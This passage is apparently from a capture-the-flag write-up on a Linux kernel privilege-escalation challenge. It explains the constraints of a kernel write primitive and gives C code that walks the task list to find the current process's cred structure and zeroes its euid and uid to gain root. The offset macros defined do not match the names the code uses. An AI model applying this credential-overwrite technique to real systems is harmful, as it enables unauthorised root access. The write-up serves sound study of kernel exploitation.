All the credentials have a value of 1000 when the challenge is started, and they're all stored inside variables of type `kuid_t/kgid_t` which are basically just structs wrapping unsigned integers. Given this, in order for a credential field to be overwritable, its following one must be equal to the current process' uid, which is the first credential in the structure.

- Before `uid` is overwritten, to overwrite the (i)th credential, the (i+1)th must be equal to 1000.
- After `uid` is overwritten, to overwrite the (i)th credential, the (i+1)th must be equal to 0.
- The `gid` field must be equal to 1000 when the `uid` field is overwritten.

In order to be able to read the root-protected flag file, it's not necessary to overwrite all the credentials. There's a lot of possible way to obtain the priviledges to read the flag. For example, overwriting first `euid` and then `uid` solves the problem and respects the constraints on the write primitive. 

The following code implements the tasks list traversing and the credentials overwriting:

```c
#define TASKS_OFF 0x458
#define CRED_OFF 0x728
#define PID_OFF 0x560
#define UID_OFF 0x4
#define EUID_OFF 0x14

// Iterate over Kernel tasks structures to find current process' credentials
printf("[+] current uid = %u, current eid = %u\n", getuid(), geteuid());

printf("[*] Starting iteration on tasks list to find current process...\n");
unsigned long cur = INIT_TASK, cred;
unsigned int pid;
unsigned int this_pid = getpid();
while(1) {
    pid = read_int(cur + PID_OFF);
    if (pid == this_pid) {
        cred = read_long(cur + CRED_OFF);
        printf("[+] Found current process. Current pid = %u, cred struct = %p\n", pid, (void *) cred);
        printf("[+] cred struct uid = %u, cred struct eid = %u\n", read_int(cred + CRED_UID_OFF), read_int(cred + CRED_EUID_OFF));

        printf("[*] Overwriting euid...\n");
        write_int_zero(cred + CRED_EUID_OFF);

        printf("[*] Overwriting uid...\n");
        write_int_zero(cred + CRED_UID_OFF);
        break;
    }
    cur = read_long(cur + TASKS_OFF) - TASKS_OFF;
}

printf("[+] current uid = %u, current eid = %u\n", getuid(), geteuid());
```

---
